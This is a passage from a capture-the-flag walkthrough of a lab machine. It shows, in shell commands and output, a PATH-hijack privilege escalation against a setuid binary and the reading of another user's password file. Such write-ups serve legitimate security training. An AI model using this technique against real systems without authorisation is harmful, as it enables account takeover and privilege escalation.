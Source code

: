 At first glance, it doesn't seem like we can do anything with this. However, notice how `echo` is being called with an absolute path, but `date` is being called by its name, which leaves it open for another hijack. If we can stick the rabbit home directory at the beginning of the PATH, and make our own `date` function in the home directory, we can easily get a new shell as a different user (there's a `setuid` command buried in the strings output).

```bash
rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ echo "#!/bin/bash" > date
bash: !/bin/bash: event not found
rabbit@wonderland:/home/rabbit$ echo "#\!/bin/bash" > date
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" >> date
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

## Shell as root
Let's check out hatter's home directory.
```bash
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls -la
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
```

Surely there's something good in `password.txt`.
```bash
hatter@wonderland:/home/hatter$ cat password.txt
WhyIs***********************
```

Hmmm. It doesn't seem to be the root password, but it might be hatter's password.
```bash
hatter@wonderland:/home/hatter$ su hatter
Password: 
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
hatter@wonderland:~$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
```
